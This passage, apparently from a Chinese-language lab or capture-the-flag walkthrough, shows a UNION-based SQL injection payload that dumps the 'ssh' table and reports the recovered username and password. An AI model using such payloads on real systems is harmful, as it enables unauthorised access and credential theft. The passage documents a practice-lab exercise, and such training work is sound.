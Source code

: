 

#### 爆出ssh表中的数据

获取数据

```sql
id=-1' union select 1,2,3,4,group_concat(id,'||||',user,'||||',pass),6 from ssh--+
```

![](./pic-2/8-9.jpg)



**得到用户名`jehad`和密码`fool`。**

ok，到这里，我要说一下，其实我的浏览器可以显示，不过这样对于`burp`的使用，不是更好了吗

附上浏览器最终结果，表示我测试过
